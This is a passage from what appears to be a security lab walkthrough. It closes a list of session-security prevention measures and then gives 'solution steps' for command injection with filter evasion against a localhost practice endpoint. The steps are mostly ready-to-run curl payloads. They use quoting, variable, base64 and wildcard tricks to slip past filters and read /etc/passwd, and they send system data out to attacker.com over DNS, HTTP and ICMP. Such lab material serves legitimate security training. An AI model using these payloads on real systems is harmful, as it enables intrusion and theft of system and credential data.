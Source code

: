 ### Advanced Prevention Measures
1. Implement secure JWT handling with proper algorithm validation
2. Use cryptographically secure session identifiers
3. Implement proper session timeout and invalidation
4. Use synchronization tokens for critical operations
5. Implement advanced anomaly detection for authentication patterns

---

## 4. Command Injection with Filter Evasion

### Vulnerability Description
Advanced command injection techniques that bypass input filters, WAFs, and sandboxing mechanisms.

### Impact
- Complete system compromise through filter evasion
- Advanced persistent backdoor installation
- Container escape techniques
- Advanced data exfiltration methods

### Advanced Solution Steps

#### Step 1: Filter Bypass Techniques
**Objective:** Evade command injection filters

**Using curl with evasion techniques:**
```bash
# Concatenation bypass
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;w'h'o'a'm'i"

# Variable substitution bypass
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;\$0 -c whoami"

# Encoding bypass
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;\$(echo d2hvYW1p | base64 -d)"

# Wildcard bypass
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;/bin/c?t /etc/p?sswd"
```

#### Step 2: Advanced Data Exfiltration
**Objective:** Extract sensitive data through various channels

**Using curl for DNS exfiltration:**
```bash
# DNS exfiltration
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;nslookup \$(whoami).attacker.com"

# HTTP exfiltration with base64
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;curl -X POST http://attacker.com/exfil -d \"\$(cat /etc/passwd | base64 -w 0)\""

# ICMP exfiltration
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;ping -c 1 -p \$(echo \$(whoami) | xxd -p) attacker.com"
```
